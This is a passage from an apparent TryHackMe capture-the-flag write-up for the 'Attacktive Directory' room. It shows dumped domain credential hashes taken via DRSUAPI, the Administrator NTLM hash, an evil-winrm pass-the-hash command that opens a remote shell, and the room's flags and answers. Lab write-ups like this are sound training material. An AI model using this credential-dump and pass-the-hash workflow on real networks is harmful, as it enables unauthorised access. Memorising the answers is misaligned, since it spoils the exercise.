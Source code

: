 ~~~
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:35383a0556fcf1c00fde0212d16736953c23b69f2c4ebc76dd519db41b472482
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:17f09fb2e5c8b105143d6479ec32087b
ATTACKTIVEDIREC$:des-cbc-md5:9426b6febf6dc2ab
[*] Cleaning up... 
~~~

In the above output, we can read that the `DRSUAPI` method allows to get the `NTDS.DIT` secrets.

~~~
[*] Using the DRSUAPI method to get NTDS.DIT secrets
~~~

Answer: `DRSUAPI`

## #7.2 - What is the Administrators NTLM hash?

Here is the extract regarding the `administrator` account:

~~~
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
~~~

The NTLM hash is `e4876a80a723612986d7609aa5ebc12b`

## #7.3 - What method of attack could allow us to authenticate as the user without the password?

Answer: `pass the hash`

## #7.4 - Using a tool called Evil-WinRM what option will allow us to use a hash?

*Hint: if Evil-WinRM is not installed, you can do so by issuing `gem install evil-winrm`*

We can pass the administrator's password NTLM hash directly to `evil-winrm` to login without knowing the password.

~~~
$ evil-winrm -i 10.10.104.142 -u administrator -H e4876a80a723612986d7609aa5ebc12b

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> cd \users
*Evil-WinRM* PS C:\Users> more svc-admin\desktop\user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}

*Evil-WinRM* PS C:\Users> more backup\desktop\PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}

*Evil-WinRM* PS C:\Users> more administrator\desktop\root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
~~~
